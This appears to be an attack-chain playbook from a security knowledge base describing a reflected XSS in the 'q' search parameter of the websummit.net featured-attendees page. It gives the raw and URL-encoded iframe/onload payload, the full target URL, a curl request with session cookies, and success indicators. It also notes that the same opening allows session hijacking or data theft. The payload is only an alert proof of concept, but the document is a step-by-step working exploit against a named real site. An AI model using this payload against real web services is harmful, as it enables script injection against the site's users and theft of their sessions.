

# Reflective XSS in WebSummit Search Parameter for JavaScript Execution

Multi-stage attack chain demonstrating a complete attack workflow exploiting insufficient output encoding in a search parameter to inject and execute JavaScript via a reflected XSS vulnerability on the WebSummit platform.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Firefox-Browser]]

### Target Environment

- Web platform
- Service: api.cilabs.net (via WebSummit frontend)
- Tech stack: JavaScript
- Network access: Public internet to https://websummit.net

### Initial Access Requirements

- No credentials required
- Direct access to the public-facing WebSummit attendees page
- Browser capable of executing JavaScript

## Detailed Attack Procedures

### Step 1: Craft Malicious URL
procedure: [[procedures/Exploit-Reflective-XSS-in-Search-Parameter]]

**Objective**: Create a URL with an XSS payload in the 'q' parameter to break out of the script tag's data-url attribute and inject executable JavaScript.

**Instructions**: Construct the payload "rubyoob'><iframe/onload=alert(document.domain)></iframe>" and URL-encode it to "rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E". Append it to the query string of https://websummit.net/attendees/featured-attendees?q=.

**Expected Output**: A fully formed malicious URL ready for transmission.

**Success Indicators**:
- Payload correctly encoded without breaking the URL structure
- URL points to the vulnerable endpoint

### Step 2: Send GET Request
procedure: [[procedures/Exploit-Reflective-XSS-in-Search-Parameter]]

**Objective**: Transmit the malicious request to the target endpoint to trigger the reflection of the payload.

**Instructions**: Use a browser or HTTP client to send a GET request to the crafted URL, including standard headers like User-Agent for realism. Execute [[commands/send-xss-get-request]] to simulate the request:

```bash
curl -X GET "https://websummit.net/attendees/featured-attendees?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E" -H "User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0" -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" -H "Cookie: __cfduid=d0206c15456d3dc6ff974f786972dd1e21475340728; UTMvalues=?q=rubyoob%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E%5Dvisited=yes; _gu=79b8b070-b65b-4988-9808-72c0c3f009d1; _gw=2.u[~0,~0,~0,~0,~0]v[~enka0,~1,~0]a(3341-30024717~102t); _gs=2.s(); intercom-id-h2ooummb=c763a234-9283-447e-9919-48808090f3b5"
```

**Expected Output**: HTTP response containing the reflected payload in the HTML body.

**Success Indicators**:
- Request accepted (200 OK status)
- No immediate errors or blocks

### Step 3: Observe Payload Injection and Execution
procedure: [[procedures/Exploit-Reflective-XSS-in-Search-Parameter]]

**Objective**: Verify the payload injection into the script tag and confirm JavaScript execution, such as an alert popup.

**Instructions**: Load the response in a browser like [[tools/Firefox-Browser]] and inspect the HTML source around line 151 for the reflected payload. Look for the breakout in the data-url attribute leading to the iframe execution.

**Expected Output**: Alert box displaying the document domain (e.g., "websummit.net"), confirming arbitrary JS execution.

**Success Indicators**:
- Payload visible in response: <script id="fa-list" ... data-url='...rubyoob'><iframe/onload=alert(document.domain)></iframe>
- JavaScript alert triggers on page load

## Attack Chain Summary

### Key Achievements

1. Successful breakout from the data-url attribute using unencoded user input
2. Injection and execution of an iframe-based payload for proof-of-concept alert
3. Demonstration of potential for session hijacking or data theft via arbitrary JS

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
